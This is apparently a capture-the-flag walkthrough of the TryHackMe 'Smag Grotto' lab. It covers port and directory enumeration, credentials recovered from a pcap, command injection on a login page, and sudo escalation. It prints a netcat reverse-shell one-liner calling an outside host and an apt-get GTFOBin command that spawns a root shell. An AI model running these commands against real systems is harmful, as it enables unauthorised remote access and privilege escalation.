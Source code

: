 ![banner](Images/banner.png)


**Room by:** 
**Difficulty:** Easy
**Url:** [TryHackMe.com - Smag Grotto](https://tryhackme.com/room/smaggrotto)


## Overview:

Find .pcap file at /mail and analyze with Wireshark. Login to /admin.php and exploit command injection. Exploit cron job to gain user, and then a GTFOBin for root.


## ~ Enumeration
**Start with an nmap scan `nmap -sV -sC -oN nmap/scan smag.thm`. Then we will run Gobuster against `http://smag.thn'.**

**Nmap** <br />

```bash
# Nmap 7.80 scan initiated Wed Jul 29 20:32:03 2020 as: nmap -sC -sV -oN scan 10.10.207.150
Nmap scan report for 10.10.207.150
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**HTML**
<br />

[![html](Images/welcome.png)](Images/welcome.png)

<br />

> Nothing obvious so far

<br />

**Gobuster**
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.117
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 11:48:07 Starting gobuster
===============================================================
// (Status: 200)
/mail (Status: 301)
===============================================================
2020/12/08 11:48:24 Finished
===============================================================
```
<br />

**If we go to `/mail` you will find a `.pcap` file to download. The page instructs you to download using `wget`.**

`wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap`


**Now we have the file, lets analyze it using Wireshark.**

![wireshark](Images/wireshark1.png)](Images/wireshark1.png)

**Follow the HTTP stream:**
<br />

[![stream](Images/wireshark2.png)](Images/wireshark2.png)

**This gives us a username, password and a domain name to add to `/etc/hosts`**
[![dev](Images/devsmag.png)](Images/devsmag.png)


## ~ Foothold

If we browse to `/login.php` we can log in using the creds we found earlier. And then we are greeted a page, where we can input commands. For a simple PoC we will host a http server on our machine and try to `wget` from the command box.

**`wget 'http://10.10.10.10:8000/test.txt`**

<br />

[![Success](Images/wget.png)](Images/wget.png)

**Revers Shell:**
We are going to set up and send a netcat reverse shell.
<br />
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

[![admin](Images/adminphp.png)](Images/adminphp.png)
<br />  

[![ncat](Images/nc.png)](Images/nc.png)

## ~ Privesc to user:


## `Sudo -l`
```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```


`sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`


